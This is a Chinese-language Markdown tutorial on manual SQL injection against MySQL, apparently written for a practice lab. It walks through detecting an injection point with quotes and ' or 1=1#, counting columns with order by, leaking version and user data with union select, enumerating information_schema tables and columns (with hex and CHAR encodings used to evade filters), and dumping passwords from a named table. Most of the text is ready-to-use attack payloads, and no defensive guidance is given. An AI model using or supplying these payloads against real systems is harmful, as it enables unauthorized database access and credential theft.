 #SQL手工注入基础
```
Author:C0d3r1iu 有什么疑惑可以随时联系我
mail:admin@recorday.cn
```
***


#标准手工注入流程
###1.探测注入点
####1.测试注入点是否存在

常用方法：

1.单引号探测

![](http://hitnslab.com:65503/media/upload/SQL1.png)


2.逻辑语句判断
这里分析语句可知，用单引号闭合前一个引号，后面执行我们的or语句

payload:`' or 1=1# `

这样就把所有信息显示出来了

![](http://hitnslab.com:65503/media/upload/SQL2.png)

如果是信息显示类注入点，还可以用and 1=1 和and 1=2 ，前者返回成功，后者返回失败来进行判断，这里不再赘述。

###2.探测注入点之后，收集信息

####1.union select 联合查询

在联合查询前，需要判断能显示字段的数量，用到order by 语句
这里作为演示，猜字段数的区间小一点，尽可能用二分法，凭感觉也可以
![](http://hitnslab.com:65503/media/upload/SQL3_aLS41LU.png)

![](http://hitnslab.com:65503/media/upload/SQL4_ge34s6s.png)
之后又试了 orderby3不报错，4报错
因此是3个字段

我们构造如下语句：
`' union select 1,2,3 #`

再次注入查看效果即可

![](http://hitnslab.com:65503/media/upload/SQL5.png)

那我们替换成
`' union select version(),now(),user()#`
之后呢？

![](http://hitnslab.com:65503/media/upload/SQL6.png)

没错，这样就可以查询，搜集信息
version()版本信息
database()数据库名
user()获取当前用户
@@ version_compile_os 操作系统信息

####2.查询information_schema

如果mysql版本大于5.0，可以对默认表进行读取进行更多信息的探索:
payload如下：
`'union select 1,table_name from  information_schema.tables #`

![](http://hitnslab.com:65503/media/upload/SQL7.png)

在爆出的众多表名中寻找需要利用的即可

![](http://hitnslab.com:65503/media/upload/SQL8.png)

或者爆指定数据库的表（hex转码）：

![](http://hitnslab.com:65503/media/upload/SQL9.png)
payload1如下：

`' union select 1,2,table_name from information_schema.tables where table_schema='inject`

payload2如下：
`' union select 1,2,table_name from information_schema.tables where table_schema=0x696E6A656374 #`

同理payload2如下：
`' union select 1,2,table_name from information_schema.tables where table_schema=CHAR(105,110,106,101,99,116)#';`

####3.读完表名读字段

把上一步的table换成column就可以了

payload：

`' union select 1,2,column_name from information_schema.columns where table_name='dbinfo`

####4.读取表内部具体内容

这里注意要带上库的名字，看程序具体怎么写

payload:

`' union select 1,2,password from inject.dbinfo#`

到了这里，一次完整的注入基本就完成了


